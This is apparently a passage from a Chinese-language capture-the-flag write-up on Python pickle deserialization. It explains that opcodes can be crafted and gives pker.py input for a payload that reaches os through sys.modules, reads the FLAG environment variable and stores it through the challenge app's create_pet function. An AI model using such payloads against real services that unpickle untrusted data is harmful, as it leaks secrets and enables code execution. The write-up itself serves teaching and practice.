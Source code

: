 
pickle 在反序列化时会执行原本对象的`__reduce__`方法，这个方法可覆写，但由于 pickle 反序列化的字符串实际上是另一种语言，即`opcode`，因此可以通过构造`opcode`来实现多种功能。

使用 [pker.py](https://github.com/EddieIvan01/pker) 构造 opcode 调用方法，以下是 pker.py 的输入。

```python
getattr = GLOBAL('__builtin__', 'getattr')
dict = GLOBAL('builtins', 'dict')
get = getattr(dict, 'get')
mod = GLOBAL('sys', 'modules')
os = get(mod, 'os')

store_module = GLOBAL('__main__', 'store')
create_pet = getattr(store_module, 'create_pet')

getenv = getattr(os, 'getenv')
flag_value = getenv("FLAG")
create_pet(flag_value, "test")
return
```

